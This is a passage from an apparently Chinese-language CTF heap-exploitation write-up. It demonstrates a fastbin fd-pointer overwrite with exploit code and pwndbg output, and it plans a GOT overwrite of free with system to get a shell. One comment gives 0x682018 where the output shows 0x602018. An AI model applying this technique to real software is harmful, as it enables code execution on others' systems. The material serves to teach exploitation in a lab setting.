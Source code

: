 **STEP3 **修改脚本的edit操作，计算一下到第二个堆块fd指针的距离，构造合法的size，并尝试覆盖fd指针为0xdeadbeef。

```
add(0x50, '000000')
add(0x50, '111111')
delete(1)
pause()
edit(0, 0x100, flat('0' * 0x50, '00000000', 0x61, 0xdeadbeef))
add(0x50, 'xxxxxxxx')
add(0x50, 'xxxxxxxx')
```

再次附加调试，并查看fastbin，可以看到已经指到0xdeadbeef上。然后连续两次分配就可以将0xdeadbeef地址分配出来。

```
pwndbg> heapbase # 查看heapbase地址，这次变为0xaa7000
heapbase:  0xaa7000
pwndbg> x/40gx 0xaa7000           # 查看堆分配情况，fd被覆盖成0xdeadbeef
0xaa7000:      0x0000000000000000      0x0000000000000021
0xaa7010:      0x0000000000400896      0x00000000004008b1
0xaa7020:      0x0000000000000000      0x0000000000000061 \
0xaa7030:      0x3030303030303030      0x3030303030303030  |
0xaa7040:      0x3030303030303030      0x3030303030303030  | chunk0
0xaa7050:      0x3030303030303030      0x3030303030303030  |
0xaa7060:      0x3030303030303030      0x3030303030303030  |
0xaa7070:      0x3030303030303030      0x3030303030303030 /
0xaa7080:      0x3030303030303030      0x0000000000000061 \
0xaa7090: fd-> [0x000000deadbeef]      0x0000000000000000  |
0xaa70a0:      0x0000000000000000      0x0000000000000000  | chunk1
0xaa70b0:      0x0000000000000000      0x0000000000000000  |
0xaa70c0:      0x0000000000000000      0x0000000000000000  |
0xaa70d0:      0x0000000000000000      0x0000000000000000 /
0xaa70e0:      0x0000000000000000      0x0000000000020f21
0xaa70f0:      0x0000000000000000      0x0000000000000000
pwndbg> fastbins           # 查看fastbin链，指向0xdeadbeef
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0xaa7080 ◂— 0xdeadbeef
0x70: 0x0
0x80: 0x0
pwndbg>
```

**STEP4** 查看GOT表，查找合适的地址，尝试将fastbin chunk伪造到附近，用于覆写GOT表。前面0xdeadbeef不是一个合法地址，现在看下哪里可以改，通过checksec命令，看到可以改got，可以把free覆写成system，再通过调用free("/bin/sh")就可以执行shell。
然后看下附近有没有合法的size可以供利用，只要找任意四字节满足条件就可以。发现一个0x60，和0x50在同一个chunk里，是可以用的，把地址0x601ffa记下

```
pwndbg> checksec                        # 查看保护情况，确定GOT是否可写
[*] '/pwn/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
pwndbg> got                             # 查看GOT表，其中free@GOT地址为0x682018
GOT protection: Partial RELRO | GOT functions: 12
[0x602018] free@GLIBC_2.2.5 -> 0x7f56bc4334f0 (free)
[0x602020] puts@GLIBC_2.2.5 -> 0x7f56bc41e690 (puts)
[0x602028] __stack_chk_fail@GLIBC_2.4 -> 0x4006f6 (__stack_chk_fail@plt+6)
[0x602030] printf@GLIBC_2.2.5 -> 0x7f56bc404800 (printf)
[0x602038] close@GLIBC_2.2.5 -> 0x400716 (close@plt+6)
...
pwndbg> x/40gx 0x602018-0x40            # 查看free@GOT附近内存，查找是否有合适的size伪造chunk
```